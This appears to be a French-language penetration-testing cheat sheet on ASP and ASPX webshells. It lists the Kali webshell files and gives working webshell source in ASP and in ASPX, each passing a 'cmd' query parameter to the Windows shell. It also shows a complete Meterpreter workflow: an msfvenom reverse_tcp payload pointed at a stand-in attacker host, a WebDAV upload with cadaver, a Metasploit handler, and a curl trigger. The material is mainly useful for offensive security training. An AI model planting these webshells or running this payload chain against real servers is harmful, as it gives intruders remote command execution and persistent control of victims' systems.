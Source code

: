 
### Webshells ASP natifs Kali
```bash
# Localisation webshells Kali
ls /usr/share/webshells/asp/
ls /usr/share/webshells/aspx/

# Principaux webshells
/usr/share/webshells/asp/webshell.asp          # Simple command execution
/usr/share/webshells/asp/cmd.asp               # Basic cmd shell
/usr/share/webshells/aspx/cmdasp.aspx          # ASPX version
```

### Webshell ASP custom simple
```asp
<%
Set cmd = CreateObject("WScript.Shell")
Set exec = cmd.Exec(Request.QueryString("cmd"))
Response.Write("<pre>" & exec.StdOut.ReadAll() & "</pre>")
%>
```

### Webshell ASPX custom
```aspx
<%@ Page Language="C#" %>
<%@ Import Namespace="System.Diagnostics" %>
<script runat="server">
void Page_Load(object sender, EventArgs e) {
    string cmd = Request.QueryString["cmd"];
    if (cmd != null) {
        Process p = new Process();
        p.StartInfo.FileName = "cmd.exe";
        p.StartInfo.Arguments = "/c " + cmd;
        p.StartInfo.UseShellExecute = false;
        p.StartInfo.RedirectStandardOutput = true;
        p.Start();
        Response.Write("<pre>" + p.StandardOutput.ReadToEnd() + "</pre>");
    }
}
</script>
```

### Meterpreter ASP payload
```bash
# Générer payload Meterpreter ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=4444 -f asp > meterpreter.asp

# Upload via cadaver
cadaver http://target/webdav
put meterpreter.asp

# Handler Metasploit
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST attacker_ip
set LPORT 4444
exploit

# Déclencher payload
curl http://target/webdav/meterpreter.asp
```

---